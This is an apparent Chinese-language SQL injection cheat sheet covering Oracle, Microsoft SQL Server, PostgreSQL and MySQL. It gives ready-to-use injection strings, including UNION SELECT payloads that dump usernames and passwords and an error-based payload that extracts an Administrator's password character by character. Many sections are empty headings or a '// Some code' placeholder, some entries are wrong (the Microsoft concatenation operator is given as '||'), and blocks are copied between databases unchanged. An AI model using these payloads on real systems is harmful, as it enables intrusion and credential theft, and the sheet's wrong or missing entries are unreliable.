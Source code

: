 # ✔️ SQL注入CheatSheet

## Oracle

### 字符串连接

```sql
'aaa' || 'bbb'
```

### 截取字符串

```sql
SUBSTR('asdsfsdgf', 4, 2)
```

### 用注释截断查询

```sql
--
```

### 数据库类型和版本查询

```sql
SELECT * FROM v$version
SELECT banner FROM v$version
SELECT version FROM v$instance
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM all_tables
// 列出数据库中某个表中的所有列
SELECT * FROM all_tab_columns WHERE table_name = '表名'
```

### 布尔条件错误

```sql
// Some code
```

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露





## Microsoft

### 字符串连接

```sql
'aaa' || 'bbb'
```

### 截取字符串

```sql
SUBSTRING('fcsasff', 4, 2)
```

### 用注释截断查询

```sql
--
/*    */
```

### 数据库类型和版本查询

```sql
SELECT @@version
' UNION SELECT @@version--
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
// 触发除零错误，一次测试一个字符来检索数据
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

### 布尔条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露



## PostgreSQL

### 字符串连接

```sql
'aaa' || 'bbb'
```

### 截取字符串

```sql
SUBSTRING('sdaggrfsgrh', 4, 2)
```

### 用注释截断查询

```sql
--
/*   */
```

### 数据库类型和版本查询

```sql
SELECT version()
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
// 触发除零错误，一次测试一个字符来检索数据
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

### 布尔条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露



## MySQL

### 字符串连接

```sql
// 字符串之间是有空格的
'aaa' 'bbb'
CONCAT('aaa','bbb')
```

### 截取字符串

```sql
SUBSTRING('afdgghtr', 4, 2)
```

### 用注释截断查询

```sql
// -- 之后有空格
#
--
/*   */
```

### 数据库类型和版本查询

```sql
SELECT @@version
' UNION SELECT @@version--
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
// 触发除零错误，一次测试一个字符来检索数据
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

### 布尔条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露
